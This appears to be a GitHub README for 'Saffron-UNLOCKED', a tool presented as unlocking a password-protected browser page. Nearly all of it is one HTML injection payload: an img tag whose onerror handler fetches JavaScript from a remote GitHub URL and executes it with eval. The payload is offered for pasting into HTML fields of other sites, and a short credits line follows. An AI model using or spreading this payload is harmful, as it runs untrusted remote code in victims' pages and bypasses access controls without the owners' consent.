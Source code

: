 # Saffron
## A simple browser page that could be pasted on any html script code like Lego Wedo 2.0
### THIS REPOSITORY UNLOCKS SAFFRON SO THAT YOU DO NOT NEED THE PASSWORD!
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/martial83-huue/Saffron-UNLOCKED/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```


Credits: Blobby-Boi (Creator of Blobbypass), SaffronA1, MartialMeteor82, ChatGPT-4o, BlackBoxAI, Canva, and GitHub.
